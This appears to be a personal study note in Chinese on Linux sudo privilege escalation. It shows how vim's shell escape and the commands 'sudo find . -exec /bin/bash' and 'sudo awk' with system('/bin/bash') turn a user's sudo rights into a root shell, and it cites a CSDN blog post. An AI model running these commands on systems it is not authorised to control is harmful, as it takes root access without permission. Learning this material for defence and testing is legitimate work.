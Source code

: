 sudo提权
vim中可以使用系统命令
```
:!touch 123.txt
```
这样就可以创建文件
![[Pasted image 20231218232929.png]]
同时我们在里面执行
```
!/bin/bash
```
![[Pasted image 20231218232955.png]]
直接就强制换成root,这就跟root没有两样了

![[Pasted image 20231218233049.png]]
这样为什么要退很多次
因为找出来的有好多个一样的文件都可以打开root
```
sudo find . -exec /bin/bash \;
```

或者是这种方法也可
```
sudo awk 'BEGIN {system("/bin/bash")}' test1.txt
```
然后输入当前用户密码就可以有root了
所以有各种方式都可以进行提权
所以防不胜防 (很多黑客手段) 

[Linux提权——SUDO_sudo提权-CSDN博客](https://blog.csdn.net/negnegil/article/details/120090266)
